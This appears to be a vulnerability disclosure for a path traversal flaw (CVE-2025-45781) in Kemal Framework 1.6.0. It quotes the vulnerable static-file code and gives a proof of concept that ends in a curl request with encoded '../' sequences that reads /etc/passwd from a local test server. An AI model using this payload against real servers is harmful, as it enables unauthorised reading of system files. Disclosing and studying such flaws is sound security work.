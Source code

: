 # 📂 Kemal Framework 1.6.0 Path Traversal Vulnerability (CVE-2025-45781)

## 🧩 Summary

A **Path Traversal vulnerability** exists in the `Kemal::StaticFileHandler` class of **Kemal Framework v1.6.0**. When serving static files from a user-defined `public` directory, the framework fails to sanitize malicious `../` sequences in user-supplied URIs. This allows unauthenticated attackers to access arbitrary files on the server.

## 🛠️ Affected Version

- Kemal Framework v1.6.0

## 📌 Vulnerable Code

In `src/kemal/static_file_handler.cr`:

```crystal
request_path = URI.decode(original_path)
file_path = File.join(@public_dir, request_path)

if File.exists?(file_path)
  send_file(context, file_path)
end
```

No checks are performed to sanitize or reject traversal sequences (`../`), making it possible to access files outside the `@public_dir`.


## 🔥 Proof-of-Concept (PoC)

### ✅ 1. Create a New Kemal Project

```bash
mkdir kemal-test
cd kemal-test
crystal init app .
```

"This command creates a sample Crystal application that includes a shard.yml file."

---

### ✅ 2. Edit shard.yml File

"Edit the shard.yml file as follows:"

```yaml
name: kemal-test
version: 0.1.0

dependencies:
  kemal:
    github: kemalcr/kemal
```

---

### ✅ 3. Install the Required Packages

```bash
shards install
```

This command downloads and installs Kemal into the lib/ directory.

---

### ✅ 4. Edit src/kemal-test.cr File

Write the following content:

```crystal
require "kemal"

get "/" do
  "Hello from Kemal!"
end

Kemal.config.public_folder = "./public"
Kemal.run
```

---

### ✅ 5. Create public/ directory

```bash
mkdir public
```

---

### ✅ 6. Start the Application

```bash
crystal run src/kemal-test.cr
```

Go to the following address in your browser:

```
http://localhost:3000
```

If you see "Hello from Kemal!", everything is working perfectly 🚀

---

### ✅ 7. Test the Vulnerability

```bash
curl "http://localhost:3000/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd"
```

If successful, the contents of /etc/passwd will be returned as shown below:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

